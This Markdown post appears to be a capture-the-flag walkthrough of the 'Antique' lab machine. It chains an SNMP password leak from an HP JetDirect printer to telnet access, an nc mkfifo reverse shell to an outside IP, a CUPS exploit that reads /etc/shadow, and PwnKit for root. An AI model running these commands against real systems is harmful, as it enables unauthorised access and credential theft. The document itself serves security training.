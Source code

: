 ```yaml
---
title: Antique
published: true
layout: post
---
```


<br />

---------------
Antique is an easy Linux machine featuring a network printer disclosing credentials through SNMP string which allows logging into telnet service. Foothold can be obtained by exploiting a feature in printer. CUPS administration service running locally. This service can be exploited further to gain root access on the server.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.107 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn -v
```

![](/assets/Antique/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **23/tcp**
+ **161/udp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS -sU 10.10.11.107 -p T:23,U:161 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A
```

![](/assets/Antique/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **23/tcp telnet**
+ **161/udp SNMPv1 server (public)**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS -sU 10.10.11.107 -p T:23,U:161 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn
```

<br />

The scan reports nothing.

<br />

------

<br />
### Foothold

This machine is... weird. I'm used to exploting websites and then connecting via SSH. However this machine has neither of both. We are facing a Telnet server and an SNMP server. Anyway, this machine is not hard, we just have to do our research.

<br />

When trying to connect to **Telnet**, we are **asked for a password** but also we can see a banner that indicates us something about an ***HP JetDirect***:

```bash
telnet 10.10.11.107
```

![](/assets/Antique/3.png)
<br />
<br />
<br />

When trying to connect to **SNMP** using the ***public* community string**, we get this string:

```bash
snmpwalk -c "public" -v1 -t 10 10.10.11.107
```

![](/assets/Antique/4.png)
<br />
<br />
<br />

With this information I was completely lost, so I started to **search in Google** for this printer, the telnet and SNMP services. Until I found this website:

![](/assets/Antique/5.png)
<br />
<br />
<br />

In this website, we can find this section, which explains the way to get the **JetDirect's password**:

![](/assets/Antique/6.png)
<br />
<br />
<br />

Let's try it:

```bash
snmpget -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

![](/assets/Antique/7.png)
<br />
<br />
<br />

Great, let's now **copy the output and translate it from hexademical**, frmo which we can see a long string, however the first readable part is: ***P@ssw0rd@123!!123***:

![](/assets/Antique/8.png)
<br />
<br />
<br />

Let's try this password in Telnet:
<br />
![](/assets/Antique/9.png)
<br />
<br />
<br />

We can see that we have a **command to execute system commands**, so we can send us a **reverse shell**. I tried a few and only the ***nc mkfifo*** one worked:

```bash
exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.10 4444 >/tmp/f
```

![](/assets/Antique/10.png)

![](/assets/Antique/11.png)
<br />
<br />
<br />

Now we only need to grab the **user flag**:
<br />
![](/assets/Antique/12.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

The privilege escalation of this machine **isn't intended to get command execution as root**, however I will still demonstrate how to get it.

<br />

After a bit of enumeration I discover that the **port 631/tcp** is open, so I'm going to download and use [**Chisel**](https://github.com/jpillora/chisel/releases/tag/v1.10.0) to set up local port forwarding, first we have to execute it on our machine:

```bash
chisel server --port 8080 --reverse
```

![](/assets/Antique/13.png)
<br />
<br />
<br />

Now we have to execute it on the pwned machine:

```bash
./chisel client 10.10.16.10:8080 1234:127.0.0.1:631 > /dev/null 2>&1 
```

![](/assets/Antique/14.png)
<br />
<br />
<br />

We can now connect to it and inspect it to get a **version number**:

![](/assets/Antique/15.png)
<br />
<br />
<br />

This version number leads us to **CVE-2012-5519**, which leads to this [GitHub project](https://github.com/p1ckzi/CVE-2012-5519/tree/main):

![](/assets/Antique/16.png)
<br />
<br />
<br />

Let's try what it says in the pwned machine:

```bash
cupsctl ErrorLog=/etc/shadow
curl 127.0.0.1:631/admin/log/error_log
```

![](/assets/Antique/17.png)
<br />
<br />
<br />

It worked perfectly, however **rockyou.txt doesn't contain the password**, we could get the root flag this way, but we want root command execution, so let's go for it.

<br />

Resuming our enumeration, we can see that ***pkexec*** has **SUID privileges**:

```bash
find / -perm -4000 -ls 2>/dev/null
```

![](/assets/Antique/18.png)
<br />
<br />
<br />

The only thing we have to do is transfer the **PwnKit** and run it:

![](/assets/Antique/19.png)
<br />
<br />
<br />
